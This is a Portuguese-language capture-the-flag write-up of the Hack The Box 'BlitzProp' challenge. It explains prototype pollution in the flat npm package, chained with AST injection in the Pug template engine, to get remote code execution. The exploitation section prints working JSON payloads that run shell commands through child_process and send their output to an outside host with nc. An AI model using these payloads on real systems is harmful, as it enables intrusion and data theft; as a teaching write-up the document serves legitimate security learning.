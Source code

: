 ```yaml
---
layout: post
title: "BlitzProp - Cyber Apocalipse CTF 2021"
date: 2021-04-25 17:00:00 -0300
categories: CyberApocalipse
---
```

## Resumo

![img](/assets/BlitzProp/1.png)

BlitzProp foi um desafio do CTF Cyber Apocalipse realizado pelo Hack The Box e Crypto Hack, envolveu vulnerabilidades como Prototype Pollution, que possibilita o AST Injection permite um RCE.

## Recon
O desafio permitia o download do código fonte da aplicação, que utilizava como backend nodejs, as seguintes dependências existiam para o funcionamento da aplicação:

![img](/assets/BlitzProp/2.png)

O módulo flat permite a transformação de um objeto javascript em JSON e vice-versa. Abaixo um exemplo da função *unflatten*, utilizada na aplicação.

``` js
var unflatten = require('flat').unflatten
unflatten({
 'three.levels.deep': 42,
 'three.levels': {
 nested: true
 }
})

// {
// 		three: {
// 			levels: {
// 					deep: 42,
// 					nested: true
// 					}
// 				}
// }
```

Já a dependência Pug se trata de um *template engine*, que permite concatenar tags HTMLs junto do código javascript, para renderizar um template pré-definido.

```html
<!--
doctype html
html(lang\="en")
  head
    title\= pageTitle
    script(type\='text/javascript').
      if (foo) bar(1 + 5)
  body
    h1 Pug - node template engine
    #container.col
      if youAreUsingPug
        p You are amazing
      else
        p Get on it!
      p.
        Pug is a terse and simple templating language with a
        strong focus on performance and powerful features.
-->
 
<!-- Se torna: --> 

<!DOCTYPE html\>
<html lang\="en"\>
  <head\>
    <title\>Pug</title\>
    <script type\="text/javascript"\>
      if (foo) bar(1 + 5)
    </script\>
  </head\>
  <body\>
    <h1\>Pug - node template engine</h1\>
    <div id\="container" class\="col"\>
      <p\>You are amazing</p\>
      <p\>Pug is a terse and simple templating language with a strong focus on performance and powerful features.</p\>
    </div\>
  </body\>
</html\>
```

Como podemos visualizar no código abaixo, a aplicação recebe nosso corpo da requisição POST, aplica o *unflatten* nesta requisição e após isso compara com algumas das opções pré-definidas.
Caso a string recebida no corpo da requisição estivesse dentro da comparação, o módulo *pug* é chamado para realizar um template para a resposta.

![img](/assets/BlitzProp/3.png)

Podemos perceber que não há nenhuma função que rejeite a entrada de dados por parte da API, ou seja, ela recebe o body da requisição e acaba o processando.

## Exploitation
Como toda avaliação de segurança, após o reconhecimento da aplicação é necessário realizar o levantamento de vulnerabilidades. Conforme anotado na sessão de reconhecimento, temos as dependências *Pug* na versão **3.0.0** e a dependência *Flat* na versão **5.0.0**.
Um dos melhores sites para pesquisar por vulnerabilidades em pacotes npm é o [snik.io](https://snyk.io/vuln/npm:flat@5.0.0), procurando pela versão do flat, é possível identificar que o mesmo é vulnerável a prototype pollution.

![img](/assets/BlitzProp/4.png)

[Prototype pollution é uma vulnerabilidade que afeta o javascript, se trata da capacidade de um agente malicioso injetar propriedades dentro de objetos.](https://github.com/Kirill89/prototype-pollution-explained) O Javascript permite que todos os atributos de objetos possam ser alterados, incluindo os seus atributos principais como *\_\_proto\_\_*, *constructor* e *prototype*.

Deste modo, para verificar se o módulo da API estava realmente vulnerável, enviei uma requisição JSON alterando o atributo song.name para que retornasse sempre verdadeiro.

![img](/assets/BlitzProp/5.png)

Após esta requisição, todas as requisições para API retornam a compilação do template, comprovando a vulnerabilidade. 
Avaliando a vulnerabilidade do módulo flat, comecei a procurar por vulnerabilidades relacionadas com a dependência pug, foi onde encontrei uma [vulnerabilidade de RCE](https://snyk.io/vuln/SNYK-JS-PUG-1071616), que permite uma execução de comandos caso seja possível controlar a opção *pretty* do compilador do pug. Porém, não se encaixa na nossa aplicação pois esta opção não é utilizada.
Pesquisando um pouco mais, foi possível encontrar este excelente [artigo](https://blog.p6.is/AST-Injection/) que entrelaça a vulnerabilidade de Prototype Pollution com AST-Injection, desencadeando um RCE em mecanismos de template como o pug, mostrado no artigo.
[Abstract Syntax Trees (ASTs)](https://www.twilio.com/blog/abstract-syntax-trees) é a representação de código em árvore, são uma parte fundamental da maneira que um compilador trabalha. 
Dessa forma, podemos realizar uma injeção de AST via prototype pollution, fazendo com que o compilador execute nosso código malicioso.  
De acordo com este [artigo](https://blog.p6.is/AST-Injection/), podemos realizar a injeção do código malicioso no compilador do pug, por meio do objeto *block* realizamos a alteração de uma variável de debug chamada *pug_debug_line* com o código abaixo: 

```json
{

	"__proto__.block": {

	 "type": "Text",

	 "line": "Alterar pug_debug_line"

	}

   }

```

Enviando a requisição acima acarreta na alteração do objeto e variável do compilador do pug, fazendo com que o texto contido em "line" seja processado. Por meio dessa poluição, conseguimos injetar um código malicioso e gerar execução remota de comandos no servidor, por meio do código abaixo:

```json
{

	"__proto__.block": {

	 "type": "Text",

	 "line": "process.mainModule.require('child_process').execSync(`ls | nc [REDACTED] 12562`)"

	}

   }

```

E dessa forma conseguimos visualizar o nome da flag da challenge.

![img](/assets/BlitzProp/6.png)

Enviamos outra requisição:

```json
{

	"__proto__.block": {

	 "type": "Text",

	 "line": "process.mainModule.require('child_process').execSync(`cat flagYO1AC | nc [REDACTED] 12562`)"

	}

   }

```

E voa-lá, desafio concluído!

![img](/assets/BlitzProp/7.png)

## Considerações Finais

Podemos perceber por meio deste desafio como a vulnerabilidade de prototype pollution pode ser perigosa para muitas aplicações, pois consegue interagir diretamente com todos os objetos. Este tipo de falha começa a ficar cada vez mais comum visto a ampla adoção de frameworks javascript e typescript no mercado.